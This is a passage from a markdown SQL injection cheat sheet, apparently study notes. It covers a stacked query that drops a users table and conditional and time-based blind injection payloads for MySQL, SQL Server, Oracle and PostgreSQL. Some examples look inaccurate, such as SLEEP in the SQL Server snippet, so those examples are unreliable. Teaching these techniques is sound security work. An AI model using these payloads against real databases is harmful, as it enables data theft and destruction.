### Example
```SQL
SELECT * FROM users WHERE username='admin'; DROP TABLE users; /* ' AND pass='abcd';
```
> As the results from the second query is not returned, we have to use blind SQLi methods to confirm that.

## Conditional Boolean Errors 
Includes `IF` statements & `CASE` statements.

### MySQL
```SQL
-- SYNTAX
IF (condition, if_true, if_false)

-- EXAMPLE
-- Inferential SQLi
SELECT IF (1=1, 'TRUE', 'FALSE')
SELECT IF (1=1, (SELECT table_name FROM information_schema.tables), 0)

-- Blind SQLi
SELECT IF (1=1, SLEEP(5), NULL)
```

### SQL Server
```SQL
-- SYNTAX
IF condition true ELSE false

-- EXAMPLE
-- Inferential SQLi
IF 1=1 'TRUE' ELSE 'FALSE'

-- Blind SQLi
IF 1=1 SLEEP(5) ELSE NULL
```

### ORACLE
```SQL
-- SYNTAX
IF condition THEN true; ELSE false; END IF; END;

-- EXAMPLE
IF 1=1 THEN dbms_lock.sleep(10); ELSE dbms_lock.sleep(0); END IF; END;
```

### PostgreSQL
```SQL
-- SYNTAX
SELECT CASE WHEN condition THEN true ELSE false END;

-- EXAMPLE
SELECT CASE WHEN 1=1 THEN pg_sleep(10) ELSE pg_sleep(0) END;
```
